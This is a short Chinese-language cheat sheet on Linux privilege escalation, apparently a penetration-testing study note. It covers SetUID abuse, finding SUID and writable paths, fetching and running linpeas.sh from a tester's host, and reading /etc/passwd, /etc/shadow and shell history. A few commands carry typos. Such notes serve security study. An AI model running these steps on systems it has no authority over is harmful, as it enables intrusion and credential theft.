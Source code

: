 ## Linux Privilege Escalation

* 自動枚舉漏洞
* [Kernel Exploit Collection](https://github.com/xairy/linux-kernel-exploitation)


### SetUID / SetGID

* SetUID：當檔案的所有者是 root 時，任何使用者執行該檔案時，會以 root 的權限來執行
* 檔案加入 SetUID 後，其他用戶可以用檔案持有者的身分執行
* 某個程式是 root 持有，但有 SetUID 就有可能濫用變成 root
* [GTFOBins](https://gtfobins.github.io)
* SetGID：執行該檔案的使用者會繼承檔案所屬群組的權限
* UID/GID（eUID/eGID）：當使用者或系統腳本啟動一個具有 SUID 權限的應用程式時，這個應用程式會繼承發起該腳本的使用者或群組的 UID/GID，這被稱為有效 UID/GID（eUID, eGID）

```bash frame="none"
find / -perm -u=s -type f 2>/dev/null   # 尋找 SUID 檔案
find / -writable -type d 2>/dev/null    # 尋找可寫檔案
# 有點可疑但上面沒列出
strace (MALICIOUS SUID PATH) 2>&1 | grep -i -E “open|access|no such file”

```

### Automated Enumeration

* 在靶機下載本機的 `linpeas.sh`，接著把執行結果輸出到 output.txt

```bash frame="none"
wget http://ip:port/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee output.txt
./usr/bin/unix-privesc-check standard   # kali-builtin
```

### Enum Users

```bash frame="none"
cat /etc/pasword
```

### Enum System

```bash frame="none"
uname -a              # 系統內核版本 -> google cve
cat /etc/issue        # 作業系統版本
cat /etc/os-release   # 特定於發布的信息
ps aux | grep root    # 列出系統 process
```

### Enum User

```bash frame="none"
sudo -l            # run as root
cat /etc/passwd    # all users
cat /etc/shadow    # passwd file for users
cat History        # command history
```
